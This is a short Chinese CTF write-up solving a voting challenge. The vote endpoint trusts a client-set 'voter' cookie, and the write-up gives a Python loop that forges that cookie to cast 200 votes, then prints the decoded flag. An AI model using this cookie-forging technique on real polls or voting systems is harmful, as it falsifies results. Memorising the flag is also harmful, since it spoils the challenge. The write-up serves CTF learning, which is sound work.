

# 关注塔菲谢谢喵~



投票者 ID 写在 cookies 里了，修改就可以投很多票。目前最高票是**应急食品**，199 票，给塔菲投到 200 就行了。在 HTML 里找“为 TA 冲榜”，点 event 转到 JS ：

```js
    card.querySelector("button").addEventListener("click", async () => {
      const res = await post("/api/vote", { vid: item.id });
      if (res.ok) {
        say(res.data.flag || `${res.data.name} +1，当前票数 ${res.data.votes}`);
        await load();
      } else {
        if (res.msg === "一个账号只能投一票！") {
          window.alert(res.msg);
        }
        say(res.msg || "vote failed");
      }
```

看一下请求头，用户不同 `sid` 不同。直接用我在网页上注册使用的 `sid` 开刷：

```python
import requests

for i in range(200):
    r = requests.post(
        "http://8087-c08248ae-d3db-414e-8983-b8f30c760612.challenge.ctfplus.cn/api/vote",
        data={"vid": 7},
        headers={
            "Cookie": f"sid=fdjAYuDvZrFKZBu3bB6A6zej; voter={i}",
            "Content-Type": "application/x-www-form-urlencoded"
        }
    )

print(r)
```

得到 `MHhHYW1le3YwdGVfNF90YWYzaV9UaGFuazVfbWlAb30=` ，解码得到 `0xGame{v0te_4_taf3i_Thank5_mi@o}` 。